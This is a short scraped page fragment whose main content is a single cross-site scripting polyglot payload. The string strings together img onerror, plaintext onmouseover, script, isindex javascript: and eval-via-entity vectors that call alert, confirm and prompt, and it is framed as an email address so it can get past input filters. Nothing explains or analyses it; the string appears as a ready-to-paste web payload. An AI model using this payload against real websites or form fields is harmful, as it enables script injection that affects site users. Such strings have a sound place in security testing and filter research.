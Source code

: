 -----marquee--img-src-x-onerror-confirm-1----marquee-----plaintext--------plaintext-onmouseover-prom
====================================================================================================

'">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>">&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)>&lt;script>prompt(1)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->">&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar;1&amp;#x29;"/alt="/"src="/"onerror=eval(id&amp;#x29;>'">&lt;img src="http://i.imgur.com/P8mL8.jpg">

